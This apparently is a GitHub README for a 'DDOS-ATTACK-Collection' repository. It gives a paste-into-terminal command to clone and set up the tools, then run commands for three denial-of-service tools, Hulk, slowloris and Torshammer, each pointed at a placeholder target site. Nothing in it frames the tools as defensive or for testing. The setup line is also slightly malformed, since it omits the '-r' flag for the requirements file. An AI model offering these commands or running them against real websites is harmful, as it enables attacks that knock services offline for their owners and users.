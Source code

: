 # DDOS-ATTACK-Collection

Copy "sudo git clone https://github.com/4lT4lR/DDOS-ATTACK-LINUX.git && cd DDOS-ATTACK-LINUX && pip install requirements.txt" And Past on Terminal Command For setup all tools require

# Hulk-ATTACK :- 
cd hulk && chmod +x * && python2 hulk.py YOUR_SITE_ATTACK 


# slowloris-ATTACK :- 
cd slowloris && chmod +x * && python2 setup.py && python2 slowloris.py

# Torshammer-ATTACK :-  
cd Torshammer && chmod +x * && python2 Torshammer.py YOUR_SITE_ATTACK 
